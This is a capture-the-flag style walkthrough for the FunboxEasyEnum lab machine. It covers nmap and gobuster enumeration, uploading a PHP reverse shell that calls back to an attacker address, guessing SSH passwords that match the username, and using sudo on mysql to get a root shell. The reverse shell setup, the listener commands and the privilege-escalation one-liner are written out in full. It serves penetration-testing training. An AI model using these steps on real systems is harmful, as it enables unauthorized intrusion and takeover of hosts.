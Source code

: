 Exploitation Guide for FunboxEasyEnum Summary

In this walkthrough, we’ll exploit a file upload vulnerability in a web application to gain a foothold on the target. This leads to remote code execution. We’ll then use simple, manual password guessing to escalate our privileges and abuse the user’s sudo permissions on the mysql binary to spawn a root shell. Enumeration Nmap

We’ll begin with a simple nmap scan.

sudo nmap 192.168.120.148
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-16 10:27 EST Nmap scan report for 192.168.120.148 Host is up (0.036s latency). Not shown: 998 closed ports PORT STATE SERVICE 22/tcp open ssh 80/tcp open http

If we browse the web server on port 80, we find a default Apache web page. GoBuster

Next, we’ll try brute-forcing the web server’s hidden files and directories with the /usr/share/dirb/wordlists/common.txt wordlist, searching for PHP, text, and HTML files.

(kali㉿kali)-[~] $ gobuster dir -u http://192.168.120.148 -w /usr/share/dirb/wordlists/common.txt -x php,txt,html

=============================================================== Gobuster v3.0.1 ... /index.html (Status: 200) /javascript (Status: 301) /mini.php (Status: 200) /phpmyadmin (Status: 301) /robots.txt (Status: 200) ...

The output includes mini.php which contains a custom Zerion Mini Shell 1.0 application.

Exploitation File Upload Vulnerability

This page may allow uploads to the web root (/var/www/html/). Since the PHP file format seems to be supported, let’s try uploading a PHP reverse shell. We’ll update the IP address and port number as needed.

cp /usr/share/webshells/php/php-reverse-shell.php .

sed -i "s/$ip = '127.0.0.1';/$ip = '192.168.118.5';/g" php-reverse-shell.php

sed -i "s/$port = 1234;/$port = 4444;/g" php-reverse-shell.php

Next, we’ll click Browse, select our reverse shell file, and click upload. Once uploaded, the file appears in the web root directory listing. Let’s start a Netcat listener on port 4444 and trigger our shell by navigating to http://192.168.120.148/php-reverse-shell.php.

┌──(kali㉿kali)-[~] └─$ curl http://192.168.120.148/php-reverse-shell.php
WARNING: Failed to daemonise. This is quite common and not fatal. Successfully opened reverse shell to 192.168.118.5:4444 ...

Our Netcat listener presents us with a shell as the www-data user.

nc -nlvp 4444 listening on [any] 4444 ... connect to [192.168.118.5] from (UNKNOWN) [192.168.120.148] 34362 Linux funbox7 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux 15:54:03 up 25 min, 0 users, load average: 0.00, 0.00, 0.00 USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT uid=33(www-data) gid=33(www-data) groups=33(www-data) /bin/sh: 0: can't access tty; job control turned off $ id uid=33(www-data) gid=33(www-data) groups=33(www-data)

Escalation User Enumeration

As part of our enumeration efforts, let’s check the user accounts on the target:

$ cat /etc/passwd root❌0:0:root:/root:/bin/bash ... karla❌1000:1000:karla:/home/karla:/bin/bash ... harry❌1001:1001:,,,:/home/harry:/bin/bash sally❌1002:1002:,,,:/home/sally:/bin/bash goat❌1003:1003:,,,:/home/goat:/bin/bash oracle:$1$|O@GOeN$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash lissy❌1005:1005::/home/lissy:/bin/sh

Although the file contains the password hash for the user oracle, cracking that password finds hiphop , but not further for privesc.

The passwd file contains several users, and every user, except for lissy, has a home directory:

$ ls -l /home total 20 drwxr-xr-x 2 goat goat 4096 Feb 16 13:25 goat drwxr-xr-x 2 harry harry 4096 Jan 28 12:03 harry drwxr-xr-x 2 karla karla 4096 Feb 16 13:23 karla drwxr-xr-x 2 oracle oracle 4096 Feb 16 13:23 oracle drwxr-xr-x 2 sally sally 4096 Jan 28 12:03 sally

SSH

We could use a tool like hydra to mount an online SSH brute-force attack (which will take several minutes), but let’s take a step back and try some less-complicated password attempts. We’ll begin by attempting the username as the password for each user. Here are the username and password pairs we’ll attempt:

goat:goat harry:harry karla:karla oracle:oracle sally:sally

One of the credential pairs (goat:goat) works!

ssh goat@192.168.120.148 goat@192.168.120.148's password: Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-117-generic x86_64) ... goat@funbox7:~$ id uid=1003(goat) gid=1003(goat) groups=1003(goat),111(ssh)

Sudo Abuse

Now, let’s attempt to escalate our privileges. We’ll begin with a quick sudo scan:

goat@funbox7:~$ sudo -l Matching Defaults entries for goat on funbox7: env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User goat may run the following commands on funbox7: (root) NOPASSWD: /usr/bin/mysql

The scan reveals that we can run /usr/bin/mysql as root through sudo. A GTFOBins article presents a simple command that may give us a root shell.

goat@funbox7:$ whoami goat goat@funbox7:$ sudo /usr/bin/mysql -e '! /bin/sh'

whoami
root
